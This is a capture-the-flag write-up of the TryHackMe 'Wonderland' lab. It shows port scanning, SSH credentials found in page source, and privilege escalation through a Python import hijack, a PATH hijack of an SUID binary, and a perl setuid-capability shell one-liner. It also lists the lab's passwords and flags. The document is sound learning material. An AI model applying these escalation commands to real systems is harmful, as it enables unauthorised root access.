







## Wonderland Writeup

    Box IP Addresses:
    10.10.3.227

1 - Obtain the flag in user.txt

2 (20 pts) - Escalate your privileges, what is the flag in root.txt?

### nmap

Ports 22, 80 open:

Quick :

    kali@kali-[10.8.82.167]:~/labs/tryhackme/wonderland/docs$ nmap -sT -oA nmap-initial 10.10.3.227
    [...]
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    [...]

In-Depth on ports 22, 80:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/wonderland/docs$ nmap -p 22,80 -sC -sV -oA nmap-scripts 10.10.3.227
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-24 22:42 EDT
    Nmap scan report for 10.10.3.227
    Host is up (0.019s latency).

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
    |   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
    |_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
    80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
    |_http-title: Follow the white rabbit.
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Gobuster:

kali@kali-[10.8.82.167]:~/labs/tryhackme/wonderland/docs$ gobuster dir -u http://10.10.3.227 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/img (Status: 301)
/r (Status: 301)

Naturally it says follow the white rabbit, and the first directory is /r, so I try 10.10.3.227/r/a/b/b/i/t/ and we get this page:

Viewing source, we get this:

alice:HowDothTheLittleCrocodileImproveHisShiningTail

Which looks like a username + password to ssh. Let's try it:

and we're in!

Looking at sudo -l, we can run walrus_and_the_carpenter.py as rabbit, using python3.6.

Executing it:

Gives out lines to a poem.

walrus_and_the_carpenter.py:

import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun
Had got no business to be there
After the day was done —
"It’s very rude of him," she said,
"To come and spoil the fun!"

The sea was wet as wet could be,
The sands were dry as dry.
You could not see a cloud, because
No cloud was in the sky:
No birds were flying over head —
There were no birds to fly.

The Walrus and the Carpenter
Were walking close at hand;
They wept like anything to see
Such quantities of sand:
"If this were only cleared away,"
They said, "it would be grand!"

"If seven maids with seven mops
Swept it for half a year,
Do you suppose," the Walrus said,
"That they could get it clear?"
"I doubt it," said the Carpenter,
And shed a bitter tear.

"O Oysters, come and walk with us!"
The Walrus did beseech.
"A pleasant walk, a pleasant talk,
Along the briny beach:
We cannot do with more than four,
To give a hand to each."

The eldest Oyster looked at him.
But never a word he said:
The eldest Oyster winked his eye,
And shook his heavy head —
Meaning to say he did not choose
To leave the oyster-bed.

But four young oysters hurried up,
All eager for the treat:
Their coats were brushed, their faces washed,
Their shoes were clean and neat —
And this was odd, because, you know,
They hadn’t any feet.

Four other Oysters followed them,
And yet another four;
And thick and fast they came at last,
And more, and more, and more —
All hopping through the frothy waves,
And scrambling to the shore.

The Walrus and the Carpenter
Walked on a mile or so,
And then they rested on a rock
Conveniently low:
And all the little Oysters stood
And waited in a row.

"The time has come," the Walrus said,
"To talk of many things:
Of shoes — and ships — and sealing-wax —
Of cabbages — and kings —
And why the sea is boiling hot —
And whether pigs have wings."

"But wait a bit," the Oysters cried,
"Before we have our chat;
For some of us are out of breath,
And all of us are fat!"
"No hurry!" said the Carpenter.
They thanked him much for that.

"A loaf of bread," the Walrus said,
"Is what we chiefly need:
Pepper and vinegar besides
Are very good indeed —
Now if you’re ready Oysters dear,
We can begin to feed."

"But not on us!" the Oysters cried,
Turning a little blue,
"After such kindness, that would be
A dismal thing to do!"
"The night is fine," the Walrus said
"Do you admire the view?

"It was so kind of you to come!
And you are very nice!"
The Carpenter said nothing but
"Cut us another slice:
I wish you were not quite so deaf —
I’ve had to ask you twice!"

"It seems a shame," the Walrus said,
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)

We can see we're importing "random". Lets take a look at the Python3 path:

alice@wonderland:~$ python3
Python 3.6.9 (default, Apr 18 2020, 01:56:04) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
>>> 

We can see the first path is '' (empty string) which directs Python to search modules in the current directory first.

https://stackoverflow.com/questions/49559003/why-is-the-first-element-in-pythons-sys-path-an-empty-string

https://docs.python.org/3.6/library/sys.html

Therefore we can create a random.py script that executes a shell when run in the walrus_and_the_carpenter.py. It doesn't need to have a method, it can just:

import os

os.system("/bin/bash")

because it runs the modules when you import them.

So we can now run:

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

and we are now running as rabbit!

Navigating to rabbit's home directory, we find a file called teaParty, executable as root (SUID bit set).

We can read it using hexdump -C teaParty

So it uses a function called "date". We can export our $PATH variable to add a different location to the beginning, and have another "date" file that will execute a shell:

1. export PATH="/home/rabbit:$PATH"

2. Now we can create a "date" file in /home/rabbit:

    nano date

In file:

    #!/bin/bash

    /bin/bash

3. Save, chmod a+x to allow it to be executable, and run ./teaParty:

and we have a shell as hatter!

Navigating into the hatter home directory we find a password.txt file.

Contents:

WhyIsARavenLikeAWritingDesk?

Which is the password for hatter for ssh.

Running linpeas, we find this:]

    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
    /usr/bin/perl5.26.1 = cap_setuid+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/bin/perl = cap_setuid+ep

https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

getcap -r / 2>/dev/null
pwd
ls -al perl
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
id

and we are root!

root.txt: thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
user.txt: thm{"Curiouser and curiouser!"}

Complete!

What did I learn:

Capabilities
Reading binaries using hexdump
Paths and understanding how we can use modules and custom commands by manipulating the PATH variable, and understanding how python runs modules during importing.

Things I still need to understand:

Capabilities and the setuid+ep (what ep stands for), and how that perl command allowed you to set the uid to 0 (root).